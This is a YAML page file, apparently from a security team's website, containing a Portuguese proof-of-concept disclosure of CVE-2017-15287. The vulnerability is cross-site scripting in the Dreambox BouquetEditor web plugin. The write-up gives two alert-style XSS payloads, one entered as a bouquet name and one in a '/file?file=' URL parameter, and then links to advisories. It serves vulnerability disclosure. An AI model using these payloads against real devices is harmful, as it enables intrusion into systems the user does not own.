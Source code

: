 ```yaml
---
title: CVE
permalink: "/cve/"
vulnerability-xss-dreambox: |-
  <h2>[CVE-2017-15287] Vulnerability XSS - Dreambox</h2>

  <p>Prova de Conceito (Proof of Concept - PoC), que virou o <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287" target="_blank" rel="noopenner noreferrer">CVE-2017-15287</a> por Thiago “THX”.</p>

  <h3 id="sobre-o-software">Sobre o Software:</h3>

  <p>O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.</p>

  <h3 id="as-vulnerabilidades">As vulnerabilidades:</h3>

  <h4 id="vulnerabilidade-1">Vulnerabilidade 1</h4>

  <p>O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado “BouquetEditor”:</p>

  <div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>URL: http://IP:PORT/bouqueteditor/
  </code></pre></div></div>

  <p>Passos:</p>

  <ol>
    <li>Na aba Bouquets, ira adicionar uma nova bouquet</li>
  </ol>

  <p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/1.png" alt="Passo 1" /></p>

  <ol>
    <li>Assim, irar colocar o script:</li>
  </ol>

  <div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>(&lt;script&gt;alert('XSS')&lt;/script&gt;)
  </code></pre></div></div>

  <p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/2.png" alt="Passo 2" /></p>

  <ol>
    <li>Vulnerability XSS</li>
  </ol>

  <p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/3.png" alt="Passo 3" /></p>

  <h4 id="vulnerabilidade-2">Vulnerabilidade 2</h4>

  <p>A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)</p>

  <div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
  </code></pre></div></div>

  <p><img src="https://fireshellsecurity.team/assets/images/posts/xxs/4.png" alt="XSS via endereço" /></p>

  <h3 id="compartilhamentos">Compartilhamentos:</h3>

  <p>Sites que já compatilharam o CVE:</p>

  <p><a href="https://fr.0day.today/exploit/description/28784" target="_blank" rel="noopenner noreferrer">0day</a></p>

  <p><a href="https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287" target="_blank" rel="noopenner noreferrer">CERTSI</a></p>

  <p><a href="https://cxsecurity.com/issue/WLB-2017100103" target="_blank" rel="noopenner noreferrer">CXSecurity</a></p>

  <p><a href="https://www.exploit-db.com/exploits/42986/" target="_blank" rel="noopenner noreferrer">Exploit Database</a></p>

  <p><a href="http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html" target="_blank" rel="noopenner noreferrer">Exploit Kitploit</a></p>

  <p><a href="https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/" target="_blank" rel="noopenner noreferrer">HackerTor</a></p>

  <p><a href="https://nvd.nist.gov/vuln/detail/CVE-2017-15287" target="_blank" rel="noopenner noreferrer">NVD</a></p>

  <p><a href="https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt" target="_blank" rel="noopenner noreferrer">PacketStorm</a></p>

  <p><a href="https://www.security-database.com/detail.php?alert=CVE-2017-15287&amp;utm_source=feedburner&amp;utm_medium=feed&amp;utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)" target="_blank" rel="noopenner noreferrer">Security Database</a></p>

  <p><a href="https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/" target="_blank" rel="noopenner noreferrer">SecNews24</a></p>

  <p><a href="https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/" target="_blank" rel="noopenner noreferrer">TSecurity</a></p>

  <p><a href="https://vuldb.com/fr/?id.107825" target="_blank" rel="noopenner noreferrer">VulDB</a></p>
layout: page
---
```


<li>
    <a href="/cve/vulnerability-xss-dreambox/" class="post-article">[CVE-2017-15287] Vulnerability XSS - Dreambox</a>
</li>